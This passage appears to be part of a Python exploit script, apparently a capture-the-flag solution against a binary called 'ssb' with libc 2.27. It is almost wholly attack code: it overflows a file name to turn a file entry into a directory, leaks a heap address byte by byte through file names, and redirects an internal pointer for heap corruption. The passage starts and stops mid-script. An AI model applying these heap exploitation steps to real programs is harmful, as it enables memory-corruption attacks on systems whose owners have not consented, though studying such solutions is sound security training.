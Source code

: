 ```python
    return filelist

def which_dir(boundary, offset):
    if boundary[0] < offset < boundary[1]:
        return "dir1"
    elif boundary[1] < offset < boundary[2]:
        return "dir2"
    else:
        return "dir3"

libc = ELF("./libc-2.27.so")
sock = Process("./ssb")
main_arena = 0x3ebc40
delta = 96

# Change file:victim to dir:victim
add_file("killer", 0x50, "AAAA")
add_file("victim", 0x58, "BBBB") # malloced!
remove_file("killer")
add_file("killer", 0x50, b'A' * 0x50 + b'\x01' + b'victim')

# Fill filesystem
add_dir("dir1")
add_dir("dir2")
add_dir("dir3")
add_file("big", 0x500, "a")
add_file("small", 0x58, "b")
offset = 8
boundary = []
for directory in ["dir1", "dir2", "dir3"]:
    change_directory(directory)
    boundary.append(offset)
    for i in range(88):
        if offset < 0x100:
            add_file("{}".format(offset), 0x50, "Hello")
            offset += 1
        else:
            break
    change_directory("..")

# Leak heap address by ptr
change_directory("victim")
addr_heap = 0
for fname in list_dir()[::-1]:
    if fname == b'killer':
        continue
    addr_heap <<= 8
    addr_heap |= int(fname)
assert addr_heap > 0x550000000000
print(list_dir())
change_directory("..")
dump("heap addr = " + hex(addr_heap))

# Change victim->ptr to big->ptr
lsb = addr_heap & 0xff
change_directory("victim")
remove_file(str(lsb))
change_directory("..")
change_directory("dir3")
add_file("consume", 0x50, "Hello")
change_directory("..")
change_directory(which_dir(boundary, (lsb + 0x70) & 0xff))
remove_file(str((lsb + 0x70) & 0xff))
```
